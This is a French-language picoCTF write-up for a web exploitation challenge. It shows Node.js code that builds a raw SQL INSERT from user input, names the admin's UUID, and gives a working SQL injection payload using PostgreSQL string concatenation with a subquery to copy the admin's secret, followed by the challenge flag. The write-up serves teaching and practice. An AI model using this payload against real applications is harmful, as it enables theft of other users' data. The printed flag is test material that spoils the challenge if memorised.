

## Description du Challenge
- **Plateforme :** picoCTF
- **Catégorie :** Web Exploitation
- **Description :** *This secret box is designed to conceal your secrets. It's perfectly secure—only you can see what's inside. Or can you? Try uncovering the admin's secret.*

---

##  Analyse Initiale

En accédant à la plateforme, nous pouvons créer un compte et enregistrer un "secret", mais rien d'anormal ne s'affiche directement sur l'interface. 

En examinant les fichiers sources fournis, deux éléments critiques retiennent notre attention dans `server.js` et `db.js`.

### 1. La vulnérabilité dans `server.js`
Le point de terminaison permettant de créer un secret utilise du SQL brut via `db.raw` sans aucune préparation de requête :

```js
app.post('/secrets/create', authMiddleware, async (req, res) => {
	const userId = req.userId;
	if (!userId){
		// if user didn't login, redirect to index page
		res.clearCookie('auth_token');
		return res.redirect('/');
	}

	const content = req.body.content;
	const query = await db.raw(
		`INSERT INTO secrets(owner_id, content) VALUES ('${userId}', '${content}')` 
	);

	return res.redirect('/');
});
```

La ligne suivante est critique :
```sql
`INSERT INTO secrets(owner_id, content) VALUES ('${userId}', '${content}')`
```
Le développeur concatène directement l'entrée utilisateur `content` sans nettoyage préalable (**sanitization**), ce qui engendre une vulnérabilité d'**Injection SQL (SQLi)** au sein de l'instruction `INSERT`.

### 2. Information clé dans `db.js`
L'analyse du fichier d'initialisation de la base de données nous permet de récupérer l'identifiant (UUID) exact du compte de l'administrateur :
* **ID Admin :** `e2a66f7d-2ce6-4861-b4aa-be8e069601cb`

---

## 🛠️ Résolution & Exfiltration

Tenter d'empiler une seconde requête avec un point-virgule (ex: `; SELECT...`) échoue ou n'affiche pas le résultat car l'application effectue immédiatement une redirection `res.redirect('/')` sans retourner le résultat de la seconde commande.

Pour récupérer le flag, la stratégie consiste à **détourner l'insertion** en cours. Nous allons utiliser l'opérateur de concaténation de chaînes de PostgreSQL (`||`) combiné à une sous-requête `SELECT` pour extraire le contenu du secret de l'administrateur et l'insérer dans notre propre boîte à secrets.

### Payload utilisé
Saisir le payload suivant dans le champ `content` lors de la création d'un secret :

```text
' || (SELECT content FROM secrets WHERE owner_id='e2a66f7d-2ce6-4861-b4aa-be8e069601cb' LIMIT 1) || '
```

### Mécanisme de la requête exécutée
Le serveur va exécuter la requête formatée ainsi :
```sql
INSERT INTO secrets(owner_id, content) VALUES ('[VOTRE_USER_ID]', '' || (SELECT content FROM secrets WHERE owner_id='e2a66f7d-2ce6-4861-b4aa-be8e069601cb' LIMIT 1) || '')
```

La base de données résout la sous-requête, récupère le flag de l'administrateur, et l'enregistre comme étant la valeur textuelle de **votre** secret. Après la redirection automatique vers la page d'accueil, le flag apparaît en clair sur notre tableau de bord.



---

## 🚩 Flag

```text
picoCTF{sq1_1nject10n_0f72a7ec}
```
